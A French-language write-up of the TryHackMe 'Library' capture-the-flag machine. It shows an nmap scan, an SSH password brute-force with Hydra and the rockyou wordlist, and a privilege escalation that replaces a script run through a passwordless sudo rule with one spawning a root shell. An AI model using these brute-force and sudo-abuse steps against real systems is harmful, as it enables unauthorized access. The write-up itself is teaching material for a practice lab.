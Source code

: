 ```yaml
---
title: Library (Guatemala CTF)
tags: [TryHackMe, Facile, Force brute]
style: border
color: thm
comments: false
description: L'art de réécrire un script à son avantage
modified: 06/09/2024
---
```


## Sommaire <!-- omit in toc -->

* [1. Reconnaissance](#1-reconnaissance)
* [2. Exploration du site](#2-exploration-du-site)
* [3. Trouver un mot de passe](#3-trouver-un-mot-de-passe)
* [4. Elevation de privilèges](#4-elevation-de-privilèges)

## 1. Reconnaissance

```bash
nmap -T4 -A 10.10.121.39
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-03 14:41 CEST
Nmap scan report for 10.10.121.39
Host is up (0.030s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
|_  256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Welcome to  Blog - Library Machine
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.56 seconds
```

Le scan {% include dictionary.html word="NMAP" %} met en évidence la présence d'un serveur {% include dictionary.html word="SSH" %} sur le port 22, et d'un serveur Apache sur le port 80. Ce service dispose d'un fichier `robots.txt` qui permet d'empêcher aux moteurs de recherche de référencer les pages indiquées dans ce fichier.

## 2. Exploration du site

Nous commençons par vérifier le contenu du fichier `robots.txt` mis en avant par le scan précédent :

```bash
curl 'http://10.10.121.39/robots.txt'
User-agent: rockyou
Disallow: /
```

Le `User-agent` indique le nom d'une liste de mots de passe nommée *rockyou*. Cette liste est souvent utilisée pour trouver des mots de passe "faible" dans des outils de force brute comme *<abbr title="Logiciel de craquage de mot de passe">John The Ripper</abbr>*, *{% include dictionary.html word="Hashcat" %}* ou encore *{% include dictionary.html word="Hydra" %}*.

{% include elements/figure.html image="/images/THM/20240903/VirtualBox_Kali Hack_03_09_2024_14_53_15.png" caption="Première connexion" %}

Le site héberge un blog, dont l'auteur s'appelle "meliodas". Nous utiliserons cet identifiant pour tenter de trouver un mot de passe valide pour une connexion SSH grâce à l'outil *{% include dictionary.html word="Hydra" %}*.

## 3. Trouver un mot de passe

L'outil *{% include dictionary.html word="Hydra" %}* nous permet bien de trouver le mot de passe de l'utilisateur "meliodas"

```bash
hydra -l 'meliodas' -P /usr/share/wordlists/rockyou.txt 10.10.121.39 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-03 15:03:12
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.121.39:22/
[STATUS] 146.00 tries/min, 146 tries in 00:01h, 14344256 to do in 1637:29h, 13 active
[22][ssh] host: 10.10.121.39   login: meliodas   password: i[...expurgé...]1
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-03 15:05:30
```

Grâce à ces identifiants, nous pouvons accéder au serveur et récupérer le 1er flag.

```bash
ssh meliodas@10.10.121.39

cat user.txt
6d488c[...expurgé...]35f4ec
```

## 4. Elevation de privilèges

L'utilisateur meliodas est habilité à utiliser la commande {% include dictionary.html word="sudo" %} sans mot de passe pour lancer un script Python :

```bash
sudo -l
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```

Le script en question appartient à root, et meliodas n'a que la possibilité de le lire. Nous ne pourrons pas modifier ce script pour obtenir un *{% include dictionary.html word="reverse-shell" %}*.

```bash
ls -hAl bak.py
-rw-r--r-- 1 root root 353 Aug 23  2019 bak.py
```

Le script semble permettre de faire une sauvegarde du contenu du site vers une archive `website.zip`

```python
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
```

Nous pouvons néanmoins supprimer puis recréer le fichier `bak.py` afin d'obtenir un shell root. Pour ce faire, nous utiliserons la commande proposée par [GTFOBins](https://gtfobins.github.io/gtfobins/python/#shell) en l'adaptant à nos besoins :

```bash
rm -f bak.py

echo "import os
> os.system('/bin/bash')" > bak.py

sudo /usr/bin/python3 ~/bak.py

id
uid=0(root) gid=0(root) groups=0(root)
```

Maintenant que nous avons accès au compte root, nous pouvons lire le dernier flag.

```bash
cat /root/root.txt
e8c8c6[...expurgé...]88c617
```
